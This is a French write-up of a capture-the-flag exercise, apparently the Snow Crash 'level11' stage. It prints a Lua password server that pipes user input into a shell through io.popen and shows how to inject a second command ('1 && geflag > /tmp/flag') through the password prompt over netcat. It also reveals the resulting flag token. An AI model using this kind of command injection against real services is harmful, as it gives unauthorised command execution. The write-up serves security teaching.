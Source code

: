 ## Démarche
- Dans le home se trouve un script lua
    `ls -la`
  > -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
    ```
    #!/usr/bin/env lua
    local socket = require("socket")
    local server = assert(socket.bind("127.0.0.1", 5151))

    function hash(pass)
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    data = prog:read("*all")
    prog:close()

    data = string.sub(data, 1, 40)

    return data
    end


    while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    local l, err = client:receive()
    if not err then
        print("trying " .. l)
        local h = hash(l)

        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
            client:send("Erf nope..\n");
        else
            client:send("Gz you dumb*\n")
        end

    end

    client:close()
    end
    ```

- À l'exécution, le script indique que l'adresse est déjà utilisée
  `./level11.lua`
    ```
    lua: ./level11.lua:3: address already in use
    stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
    ```

- `netstat` indique que le port `:5151` est ouvert :
  `netstat -tunl`
  ```
  Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State
    tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN
    tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN
    tcp6       0      0 :::4646                 :::*                    LISTEN
    tcp6       0      0 :::4747                 :::*                    LISTEN
    tcp6       0      0 :::80                   :::*                    LISTEN
    tcp6       0      0 :::4242                 :::*                    LISTEN
    udp        0      0 0.0.0.0:68              0.0.0.0:*
  ```

- Se connecter à ce port via `netcat`
    `nc localhost 5151`
    > Password:

- Le mot de passe saisi passe par cette ligne du script :
  `io.popen("echo "..pass.." | sha1sum")`
  Saisir les commandes sivantes en guise de mot de passe : 
  `1 && geflag > /tmp/flag`

- `cat /tmp/flag`
    > Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s



## Ressources
- [How to Check for Listening Ports in Linux](https://linuxize.com/post/check-listening-ports-linux/)
